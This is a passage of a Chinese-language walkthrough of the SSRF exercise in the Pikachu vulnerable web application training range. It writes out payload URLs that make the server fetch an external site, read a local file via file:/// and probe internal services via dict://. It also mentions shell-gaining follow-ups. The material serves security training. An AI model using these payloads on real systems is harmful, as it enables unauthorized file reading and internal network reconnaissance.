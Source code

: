 扩展阅读: [PHP中使用CURL实现GET和POST请求](https://www.cnblogs.com/CHEUNGKAMING/p/5717429.html)

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样,尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/72.png)

SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/73.png)
